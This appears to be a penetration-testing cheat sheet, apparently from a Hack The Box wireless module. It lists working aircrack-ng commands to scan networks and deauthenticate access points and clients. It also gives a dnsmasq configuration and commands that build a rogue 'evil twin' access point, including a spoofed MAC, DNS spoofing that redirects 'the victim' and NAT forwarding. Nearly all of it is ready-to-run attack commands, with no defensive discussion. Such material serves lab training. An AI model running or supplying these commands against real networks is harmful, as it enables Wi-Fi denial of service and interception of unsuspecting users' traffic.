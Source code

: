### Enumeration

| Command | Description |
| --- | --- |
| sudo airmon-ng start wlan0 | Set the wlan0 interface to monitor mode |
| sudo airodump-ng wlan0mon | Scan for available networks |
| sudo airodump-ng wlan0mon -w HTB -c 1 | Scan for available networks on channel 1, and save network traffic to a file |
| sudo aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 wlan0mon | Deauthenticating an access point. |
| sudo aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 -c 02:00:00:00:01:00 wlan0mon | Deauthenticating a specific client from an access point. |

### Deauthentication

| Command | Description |
| --- | --- |
| sudo aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 wlan0mon | Deauthenticating an access point. |
| sudo aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 -c 02:00:00:00:01:00 wlan0mon | Deauthenticating a specific client from an access point. |

### Routing commands & configuration

**DNS Config (dns.conf)**

Code: configuration

```configuration
interface=wlan1
dhcp-range=192.168.0.2,192.168.0.254,255.255.255.0,10h
dhcp-option=3,192.168.0.1
dhcp-option=6,192.168.0.1
server=8.8.4.4
server=8.8.8.8
listen-address=127.0.0.1
address=/#/192.168.0.1
log-dhcp
log-queries
```

| Command | Description |
| --- | --- |
| sudo dnsmasq -C dns.conf -d | Launch the DNS/DHCP service with our conguration. |
| sudo ifconfig wlan1 192.168.0.1/24 | Configure valid IP address for the network interface to be used to host the rogue AP. |
| sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip\_forward' | Enable IP forwarding |
| sudo ifconfig wlan1 down | Shut down the wlan1 interface. |
| sudo macchanger -m D4:C1:8B:79:AD:44 wlan1 | Assign a spoofed MAC address to the wlan1 interface. |
| sudo ifconfig wlan1 up | Start the wlan1 interface. |
| sudo dnsspoof -i wlan1 | Redirect traffic from the victim to our attack host |
| sudo iptables --append POSTROUTING --table nat --out-interface eth0 -j MASQUERADE | Enable NAT masquerading |
| sudo iptables --append FORWARD --in-interface wlan0 -j ACCEPT | Accept traffic from the wlan0 interface. |
